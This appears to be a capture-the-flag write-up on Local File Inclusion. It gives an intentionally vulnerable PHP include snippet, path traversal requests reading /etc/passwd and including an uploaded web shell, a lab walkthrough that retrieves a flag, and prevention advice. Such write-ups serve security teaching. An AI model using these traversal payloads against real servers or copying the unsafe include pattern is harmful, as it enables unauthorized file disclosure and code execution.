 # Local file inclusion

## What is the LFI (Local File Inclusion) vulnerablity ?

An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). Typically, LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.

The following is an example of PHP code that is vulnerable to LFI.

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.

http://example.com/?file=../../uploads/evil.php

In this example, the file uploaded by the attacker will be included and executed by the user that runs the web application. That would allow an attacker to run any server-side malicious code that they want.

This is a worst-case scenario. An attacker does not always have the ability to upload a malicious file to the application. Even if they did, there is no guarantee that the application will save the file on the same server where the LFI vulnerability exists. Even then, the attacker would still need to know the disk path to the uploaded file.
Directory Traversal

Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.

http://example.com/?file=../../../../etc/passwd

In the above example, an attacker can get the contents of the /etc/passwd file that contains a list of users on the server. Similarly, an attacker may leverage the Directory Traversal vulnerability to access log files (for example, Apache access.log or error.log), source code, and other sensitive information. This information may then be used to advance an attack.

## Let's get the Flag !

First, let's find a page that uses query parameters: for example: [sign in](http://192.168.1.38/index.php?page=signin)

And replace query parameters with `../../../../etc/passwd`:

```
http://192.168.1.38/index.php?page=../../../../etc/passwd
```

An alert is displayed with this message:

```
> Almost.
```

Let's try to increase the path:

```
http://192.168.1.38/index.php?page=../../../../../../../etc/passwd
```

Yeahhh

```
> Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

---

## How to avoid that security breach ?

Here are a few ways to prevent LFI attacks:

- ID assignation – save your file paths in a secure database and give an ID for every single one, this way users only get to see their ID without viewing or altering the path
- Whitelisting – use verified and secured whitelist files and ignore everything else
- Use databases – don’t include files on a web server that can be compromised, use a database instead
- Better server instructions – make the server send download headers automatically instead of executing files in a specified directory

---

#### Sources

[What is Local File Inclusion (LFI)?](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)
[Local file inclusion (prevention)](https://www.neuralegion.com/blog/local-file-inclusion-lfi/)
